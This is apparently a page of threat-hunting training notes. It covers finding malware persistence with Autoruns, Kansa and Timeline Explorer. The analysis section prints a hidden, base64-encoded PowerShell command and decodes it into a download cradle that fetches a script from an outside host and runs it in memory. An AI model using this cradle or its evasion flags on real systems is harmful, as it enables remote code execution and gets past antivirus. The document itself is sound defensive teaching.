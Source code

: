 # Threat Hunting & Assessment

- Upon confirming that a system is suspect or compromised, our protocol begins by examining the network utilizing scalable tools for data collection and analysis.  
- We prioritize stacking occurrence and analyzing outliers.

## Malware Persistence Analysis

- We were provided with a large collection of triage files and memory images to analyze.

- The Kansa incident response framework was utilized on the network during live response.

- Autorunsc.exe is a tool that Kansa executes which is used to identify programs that start automatically at system boot or user logon called ASEPs (Auto-Start Extensibility Point).

### Prepare for Analysis

- One of the first things in incident response is to run the Autorunsc.exe tool during live response, using the Kansa IR framework

- Kansa script executes Autorunsc.exe as:
    `autorunsc.exe /accepteula -a * -c -h -s '*' -nobanner`
    - This also saves the output as CSV file that can be analyzed in Timeline explorer

#### Autoruns Filtering
1. Using Timeline Explorer, open the autoruns.csv file

![](2023-01-23-09-49-22.png)

- Select File -> Open -> Select file to open

![](2023-01-23-09-50-22.png)

- If the columns are too wide, use Tools -> Reset Column Widths to improve the view.

![](2023-01-23-09-51-59.png)

2. To reduce data, we will remove all trusted startup locations from view by filtering out trusted code signers in the Signer column.  This initial step may result in some false negatives, but it will make it simpler to detect abnormalities.

> Note:  
While instances of trusted companies having their code signing certificates stolen do occur, they are uncommon.  If such a situation were to be discovered, particularly involving major vendors like Microsoft, Apple, Google or McAfee, it would likely make national news and the discoverer would likely receive significant media attention.  It is also unlikely that malware would use a trusted certificate from these major vendors.

- Click the Filter icon on the Signer column to reveal the drop-down filter.

![](2023-01-23-12-00-10.png)

- We want to view untrusted entries only, so we will select them specifically. 
    - First, select all publishers that are "Not Verified." In this case, there's just one labeled "(Not verified) VMware, Inc."

![](2023-01-23-12-00-42.png)

- Next, we will identify any publishers that are not immediately recognizable as major software vendors. While some of these companies may be familiar, we will consider Dashlane, Mozilla, and Riverbed as non-major vendors, and investigate the autostart code they are responsible for on this system.

![](2023-01-23-12-01-27.png)

- Before you click "Close", also select Blanks. Blanks include those entries with no publisher information and no digital signatures. Then click Close.

![](2023-01-23-12-01-52.png)

3. Next, we will filter the Enabled column by selecting "enabled" from the Filter icon. This will initially limit our focus to active autostart entry points, removing a significant number of empty and inactive entries from our view.

![](2023-01-23-12-02-19.png)

4. Ready to start analysis!

### Autoruns Output Analysis

- Review Entry Location, Image Path, Launch String

- Identify anomalies

- WMI database entries are suspicious because legitimate WMI persistence is very rare in Windows.

- Look at "Not Verified" and "Signed" executables; compare hashes on VirusTotal.com

- Review Run and RunOnce key entries
    - RunOnce is designed for application cleanup, removing locked files after a system reboot

- C:\Windows\Temp running a 1.bat file from this folder; suspicious

- WMI Launch String is a PowerShell encoded string

`powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA`
<br>

- **-W Hidden** : sets the Window style to Normal, Minimized, Maximized, Hidden

- **-nop** : NoProfile, does not load Windows PS profile
- **-noni** : NonInteractive, no interactive prompt for the user
- **-ec** : Encoded Command in base64

- Decode with WSL Ubuntu in Windows:

        `echo <encoded-string> | base64 -d`
         IEX (New-Object System.Net.WebClient).downloadstring('http://squirreldirectory.com/a')

    - This is an example of a commonly used PowerShell technique known as a "download cradle." This single-line command downloads and executes a PowerShell script using the IEX (Invoke-Expression) cmdlet. The script is obtained from squirreldirectory site and is executed directly in memory, allowing attackers to bypass endpoint security measures and evade detection by anti-virus software.

- To verify the authenticity of suspicious entries, it's best to first check for digital signatures. 

    - Once that step is completed, you can compare the file hash provided by Autoruns against a known-good hash database or against known-bad databases like VirusTotal. 
    
    - Additionally, researching the vendor and product listed in the "Publisher" and "Description" fields can provide more information. 
    
    - Lastly, comparing the output with baselined output from a trusted, similar system can help identify any abnormalities. 